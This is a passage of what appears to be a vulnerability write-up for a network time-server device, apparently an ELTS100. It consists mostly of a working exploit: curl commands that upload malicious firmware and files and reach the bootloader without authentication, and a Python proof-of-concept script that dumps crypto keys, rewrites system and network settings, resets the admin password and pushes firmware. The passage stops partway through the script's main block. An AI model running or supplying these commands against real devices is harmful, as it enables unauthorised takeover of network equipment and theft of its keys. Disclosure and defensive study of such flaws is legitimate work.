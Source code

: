 #### Example response:

```
HTTP/1.1 200 OK  
Configuration updated successfully!
```

### 4. **Exploit: Upload and Install Firmware**

Attackers can upload and install new firmware without authentication:


```bash
curl '{target}/firmware/now_upgrade.htm' -F 'firmware=@malicious_firmware.bin'
```

Or access the bootloader directly:

```bash
curl '{target}/bootloader'
```

Or upload mpf files using:

```bash
curl '{target}/mpfsupload' -F 'file=@malicious_file.bin'
```

---

## **Automated Exploit (Python PoC Script)**

The following Python script automates the attack process:

```python
import requests

target = "http://target"

def get_keys():
    response = requests.get(f"{target}/crypto/keypage.htm")
    print(response.text)

def modify_system():
    data = {'Loc': 'Druento (TOshiky)', 'Tizo': 2, 'Leti': 1, 'Gnss': 0}
    response = requests.post(f"{target}/system_setup.htm", data=data)
    print(response.text)

def modify_network():
    data = {
        'host': 'ELTS100',
        'ip': '192.168.10.30',
        'gw': '192.168.10.254',
        'sub': '255.255.255.0',
        'dns1': '8.8.8.8',
        'npw': 'New_password',
        'cnpw': 'New_password',
        'encp': 1
    }
    response = requests.post(f"{target}/protect/config.htm", data=data)
    print(response.text)

def upload_firmware():
    files = {'firmware': open('malicious_firmware.bin', 'rb')}
    response = requests.post(f"{target}/firmware/now_upgrade.htm", files=files)
    print(response.text)

if __name__ == "__main__":
    print("[+] Accessing Crypto Keys...")
```